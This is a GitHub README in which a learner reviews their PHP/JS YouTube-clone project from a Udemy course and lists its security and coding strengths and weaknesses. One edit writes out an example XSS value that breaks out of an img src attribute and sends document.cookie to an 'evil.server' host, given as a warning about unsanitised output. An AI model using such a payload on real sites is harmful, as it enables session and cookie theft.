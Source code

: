 # youtube-php-noframework-project
PHP/JS project with udemy course - Youtube clone, including API, ajax, frontend, backend, uploads and all sorts of functionalities </br>
course link - https://www.udemy.com/course/youtube-clone/ </br>

# Strengths: </br>
- Uses PDO and bind parameters </br>
- Uses sha512 hash </br>
- Uses sanitizing user input </br>
- Uses validation of user input </br>
- Uses error messages (that are stored in Constants class as public static) with validation functions (the idea of error array displaying all validation errors that became some kind
of standard instead of sloppy code that would display first error found and then if on resubmit this error goes away would show another one - such things used to happen
in the internet back in the day :) ) </br>
- Code is well structured, good OOP, descriptive names of classes and functions and keeping some kind of standard for the whole project </br>
- Uses regular expressions, built in php functions </br>
- Creates an API he accesses by javascript ajax (although I will never understand why backend php developers are so obsessed with using libraries like jQuery here or axios of example -
javascript fetch API can get the job done without introducing external dependencies and times when js used obscure XmlHTTPRequest are long gone...)</br>
- Some really good CSS... Im not CSS-frontend oriented but worth considering using sass and/or separating one huge style.css</br>
- Use of .text() instead of .html() in jQuery section (idk if its worth mentionting, but some people still let users edit innerHTML of the element, which is kind of like schoolar's
checkmate in terms of security) </br> 
- It is really good, really lengthy project, introducing idea of designing, creating YouTube clone, having API and a lot of client-server communication,
 kind of reactive while using just PHP and JS with no frontend framework, really well structured and preserving one style, one well-read convention through the whole project. </br>
 
# Weaknesses: </br>

- Does not provide types while binding parameters</br>
- Binds parameters before declaring a variable so it "shows in red" in code editor</br>
- I do not see any CORS mechanism in api </br>
- No validation in api whether routes are accessed by POST method or some other HTTP verb </br>
- No use of autoloading feature of any kind while having lengthy imports </br>
- No use of any templating engine </br>
- Using exec() and shell_exec() is always a red alert for me </br>
- I always use "filter_input(INPUT_SERVER, 'PHP_SELF', FILTER_SANITIZE_URL);" on PHP_SELF... just like exec(), it is some kind of red alert for me </br>
- Aside frome critique, I cannot expect one course to cover all sorts of topics, including frontend, security and so on... It is lengthy enough as a good learning project
and good enough for me to show it off that Ive completed it </br>
- EDIT: Been going through code again (since I completed the course some time ago and now im just registering my work) and just noticed 
use of sizeof() alias for count()... It is a bad habit bc it cofuses people who know laguages like C/C++ and expect information of memory allocated from such name...
To be honsest, I have no idea what the creators of PHP had in mind creating such a confusing alias. There are a lot of tricky things that exist both in C and PHP - 
some function names, for(;;) loop, printf("%d", printf("Hello world!")), passing parameters by reference like in C++ and so on... So why name something not
related to memory allocation at all sizeof - I dont know. But I believe one should just not use this alias at all. </br>
- EDIT: In this project we used hard-coded default profile picture, but if it was some real project I would probably make sure that in line here: </br>
\<img src='$coverPhotoSrc' class='coverPhoto'\></br>
$coverPhotoSrc variable will never turn into something like: ' onerror="this.src='http://evil.server/exploit.php?'+document.cookie" />. </br>
It is always better to double check everything, especially if it was some real life scenario and not Udemy course project, that much I know...</br>
- EDIT: Again - profile pic is hardcoded path here but it is worth remembering that uploaded pictures should be rather re-processed with
gd library rather than saved as they come... Another thing to watch out </br>


